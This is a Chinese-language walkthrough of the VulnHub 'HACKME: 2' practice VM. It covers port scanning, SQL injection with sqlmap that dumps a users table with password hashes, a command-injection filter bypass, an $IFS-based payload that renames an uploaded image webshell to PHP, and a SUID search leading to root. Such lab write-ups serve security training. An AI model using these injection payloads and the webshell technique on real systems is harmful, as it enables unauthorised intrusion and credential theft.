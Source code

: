 # HACKME: 2

> https://download.vulnhub.com/hackme/hackme2-DHCP.ova

靶场IP：`192.168.32.209`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.209                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 03:10 EDT
Nmap scan report for 192.168.32.209
Host is up (0.00042s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.34 ((Ubuntu))
MAC Address: 00:0C:29:22:CA:D2 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.04 seconds
```

访问80端口

![image-20220907151222221](../../.gitbook/assets/image-20220907151222221.png)

注册测试用户

![image-20220907151329775](../../.gitbook/assets/image-20220907151329775.png)

输入框有SQL注入漏洞

![image-20220907151454563](../../.gitbook/assets/image-20220907151454563.png)

```
POST /welcome.php HTTP/1.1
Host: 192.168.32.209
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.32.209/welcome.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Origin: http://192.168.32.209
Connection: close
Cookie: PHPSESSID=d82p89ea990dqrg60r28uao5al
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

search=1

```

使用sqlmap进行注入，找到`superadmin/Uncrackable`

```
┌──(root💀kali)-[/tmp]
└─# sqlmap -r 1.txt  --level 5 --risk 3 --dbms=mysql -p search --tamper space2comment.py -D webapphacking -T users --dump

Database: webapphacking
Table: users
[7 entries]
+----+--------------+------------+----------------+----------------------------------+
| id | name         | user       | address        | pasword                          |
+----+--------------+------------+----------------+----------------------------------+
| 1  | David        | user1      | Newton Circles | 5d41402abc4b2a76b9719d911017c592 |
| 2  | Beckham      | user2      | Kensington     | 6269c4f71a55b24bad0f0267d9be5508 |
| 3  | anonymous    | user3      | anonymous      | 0f359740bd1cda994f8b55330c86d845 |
| 10 | testismyname | test       | testaddress    | 05a671c66aefea124cc08b76ea6d30bb |
| 11 | superadmin   | superadmin | superadmin     | 2386acb2cf356944177746fc92523983 |
| 12 | test1        | test1      | test1          | 05a671c66aefea124cc08b76ea6d30bb |
| 13 | sad          | sectest    | asdas@sad.com  | e10adc3949ba59abbe56e057f20f883e |
+----+--------------+------------+----------------+----------------------------------+

```

使用superadmin用户登录，发现有上传和查询页面。不过上传限制webshell

![image-20220907151842747](../../.gitbook/assets/image-20220907151842747.png)

发现查询框存在命令注入漏洞

![image-20220907151940343](../../.gitbook/assets/image-20220907151940343.png)

我们换其他命令来执行，例如pwd,ls都可以正确执行而cat命令无法执行，猜测其过滤了空格，我们使用`cat<welcomeadmin.php`这个payload来绕过过滤。
可以看到在返回包里泄露的welcomeadmin.php的完整源代码，包括文件上传的绝对路径。

![image-20220907154327943](../../.gitbook/assets/image-20220907154327943.png)

上传图片木马，并且移动文件变成php文件

```
fname=1&lname=system('mv$IFS/var/www/html/uploads/year2020/shell.jpg$IFS/var/www/html/uploads/year2020/shell.php')&search=Search+User
```

![image-20220907155920157](../../.gitbook/assets/image-20220907155920157.png)

寻找suid文件

```
find / -perm -u=s -type f 2>/dev/null
```

![image-20220907160057594](../../.gitbook/assets/image-20220907160057594.png)

发现home目录下有一个可疑的文件，执行一下之后发现顺利get root权限。

![image-20220907160125047](../../.gitbook/assets/image-20220907160125047.png)
